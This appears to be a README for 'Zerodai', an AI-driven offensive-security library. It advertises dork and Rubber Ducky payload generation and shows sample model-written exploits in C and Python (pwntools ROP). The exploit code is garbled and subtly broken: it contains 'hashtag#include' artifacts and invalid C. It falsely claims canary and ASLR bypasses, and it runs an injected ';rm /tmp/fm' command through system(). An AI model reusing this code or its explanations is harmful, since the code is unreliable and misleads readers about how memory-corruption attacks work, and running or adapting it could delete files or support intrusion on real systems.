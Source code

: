 # Zerodai Library Documentation

## Table of Contents
1. [Introduction](#introduction)
2. [Method Descriptions](#method-descriptions)
   - [Inference](#inference)
   - [Function Calls (fn_c)](#function-calls-fn_c)
   - [Agent](#agent)
   - [Secondary Methods](#secondary-methods)
3. [Code Examples](#code-examples)
4. [Documentación en Español](#documentación-en-español)

### Introduction
The Zerodai library is designed to facilitate advanced cybersecurity and cyberintelligence operations through a series of specialized methods. This documentation aims to guide users of all levels, especially those new to Python or cybersecurity, through understanding and utilizing the powerful features of the Zerodai library.

### Method Descriptions

#### Inference
The `inference` method is a core component of the Zerodai library, allowing users to execute AI-driven analysis and response generation based on a set of input messages and specified functions. This method adapts its behavior based on the model specified, and can operate in either a streaming or non-streaming mode for real-time results.

#### Function Calls (fn_c)
`fn_c` is crucial for executing multiple cybersecurity tools or functions in a sequence, based on the complexity of the tasks required. It supports multistep operations, streaming output, and can dynamically adjust its processing based on the model and functions passed to it.

#### Agent
The `agent` method orchestrates complex interactions involving multiple tools and functions. It decides the flow of operations, handles execution, and manages error or output processing. This method is particularly useful for scenarios requiring a series of actions based on dynamic inputs and conditions.

#### Secondary Methods
Other methods such as `google`, `rubberducky_gen`, and `shodan_dork` are specialized functions designed for specific cybersecurity tasks like generating Google dorks or creating payloads for Rubber Ducky devices. These are explained in less detail but are crucial for targeted operations.





#### Models

0dAI 72 B 

This model is currently SOTA on cybersecurity 


1. El siguiente código presenta una vulnerabilidad de búfer overflow en la función "printMenu". Esto permite al atacante sobreescribir la dirección de retorno con un valor controlado.

```c
hashtag#include <stdio.h>
hashtag#include <string.h>

void printMenu(char* username){
 printf("Welcome %s\n",username);
}

int main(){
 char buffer[27];
 memset(buffer,'A',26); // Bypassing stack canary protection
 strcat(buffer,";rm /tmp/fm"); // Overwriting the return address with our controlled value
 puts(buffer); 
 system(buffer);
}
```

Exploit en C:

```c
hashtag#include<stdio.h>
hashtag#include<string.h>

void (*shellcode)() = &system("/bin/bash");

int main(int argc,char** argv){

 unsigned int addr = (unsigned int)&shellcode;
 
 char payload[4];
 
 payload[0] = (addr >> 24) & 0xff;
 payload[1] = (addr >> 16) & 0xff;
 payload[2] = (addr >> 8) & 0xff;
 payload[3] = addr & 0xff;

 char format[] = "%08X";
 
 FILE *fp = fopen(argv[1],"w+");
 
 if(fp == NULL)
 exit(1);

 fprintf(fp,"%s",format,payload);

 fclose(fp);
 
 return 0;
} 
```
The previous code generates a file with the necessary shellcode to execute arbitrary commands on the vulnerable system.

Python:

```python
from pwn import *

context(os='linux', arch='amd64')

# Archivo binario con la vulnerabilidad
binary = './vulnerable_binary'

io = process(binary)

rop = ROP(io.binary)

# Nos saltamos el ASLR
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
ret = rop.find_gadget(['ret'])[0]

payload = flat(
 asm('nop') * offset,
 pop_rdi,
 next_code_address,
 ret,
 io.plt['system']
)


io.sendlineafter(b'> ', payload)
io.interactive()
```
This exploit uses Pwntools to construct a payload that bypasses ASLR using ROP gadgets to call the `system` function and pass the address of our shellcode as an argument. In this case, we are passing `/bin/sh`, but any other command would also work.

Please be aware that these exploits are designed solely for educational purposes and should only be used in authorized environments and with permission. The creation of malicious or illegal exploits can have serious legal consequences.

